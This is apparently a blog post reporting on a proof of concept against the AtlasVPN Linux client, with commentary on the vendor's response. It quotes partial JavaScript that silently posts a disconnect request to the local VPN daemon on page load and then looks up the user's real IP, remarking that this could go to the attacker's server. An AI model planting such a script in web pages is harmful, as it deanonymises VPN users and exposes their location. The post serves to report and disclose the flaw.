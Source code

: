 ```yaml
---
title: Unpached AtlasVPN Exploit in the Wild - Proof of Concept
date: 2023-09-03 12:00:00 +0800
categories: [VPN]
tags: [atlas vpn, privacy, exploit]     # TAG names should always be lowercase
toc: true
math: true
---
```


# Atlas VPN 
VPNs have seen a massive increase in usage in the last few years[^footnote1], with a popular provider 'Atlas VPN' reportedly gaining more than six million users before being bought out by Nord Security, owners of NordVPN [^footnote2]. NordVPN has been extensive criticized for false advertising,[^footnote3] as well as its response to a data breach in 2019 - in which private keys and root access were compromised - that the company took more than 18 months to reveal.[^footnote4]

It appears their inability to secure their services has occurred again.  

# The Exploit
Two days ago, a throwaway account named ‘Educational-Map-8145’ (I’ll call them ‘EM8’) posted on the Cybersecurity subreddit what the user claimed to be a 0-day javascript code.  After execution this code could disconnect the “AtlasVPN linux client and leak the users IP address”. [^footnote5] 

According to EM8, the AtlasVPN runs both a client and a daemon, and the client connects via “API on localhost on port 8076”. As any program can access localhost -  including websites - the malicious javascript could be run in any website to cause the VPN to disconnect, exposing the real IP of the user, which can be collected (included in the PoC script). Fortunately, EM8 firmly stated that the code was “not intended for illegal purposes”, so AltasVPN users should be fine.

# Breakdown of Script
1. Send a command to stop the VPN

```
</code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </form>
   <script>
    window._currentIP = false;
     // Run main exploit code
    window.addEventListener('load', function () {
      addIPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // Blind CORS request to atlasvpnd to disconnect the VPN
    function triggerFormSubmission() {
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] Sending disconnect request to atlasvpnd...\n";
      document.getElementById('stopForm').submit();
```

2. Grab Real IP address
   
```
     // Gets IP from ipfy API (this, of course, could be your server)
    function addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = function () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var response = JSON.parse(xhr.responseText);
          ipAddress = response.ip;
           logDiv.innerHTML += '[?] Current IP:' + ipAddress + "\n";
```

> The Reddit poster has the code in [full](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/).
{: .prompt-info }

# Confirmation 
In a post from Chris Partridge on Mastodon, he called the “hilarious[ly]” bad security “utter garbage”.[^footnote7]  Also included with the exposé was a video which appears to demonstrate the Proof of Concept for the dropped connection, as well as the explination that since it makes "simple request" this allows it to slip past Cross-Origin Resource Sharing ([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)). 

| Click Box Below for PoC Video |
| --- | 
| ![ - - - - - - - Proof of Concept - Click here to View - - - - - - - ](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/997/661/288/787/693/original/a209c146534a35a3.mp4) | 


# AtlasVPN Response (or Lack Thereof)
In the original reddit post, EM8 claims they tried to contact AtlasVPN about the issue but received “no answer” and saw “[no] signs of a bug bounty programme”. In fact, the response was so lacking and the fact that the security “suck[ed] so massively” they found it “hard to believe this is a bug rather than a backdoor”. 

Yikes.

Hopefully Atlas will address the exploit with the same speed as NordVPN. So only 18 months to go.

> I have not verified the PoC myself. Don't use it maliciously. 
{: .prompt-warning }

[^footnote1]: [https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/](https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/)
[^footnote2]: [https://www.comparitech.com/vpn/reviews/atlas-vpn-review/](https://www.comparitech.com/vpn/reviews/atlas-vpn-review/)
[^footnote3]: [https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi](https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi)
[^footnote4]: [https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/](https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/)
[^footnote5]: [https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/)
[^footnote7]: [https://cybersecurity.theater/@tweedge/110997661135498890](https://cybersecurity.theater/@tweedge/110997661135498890)
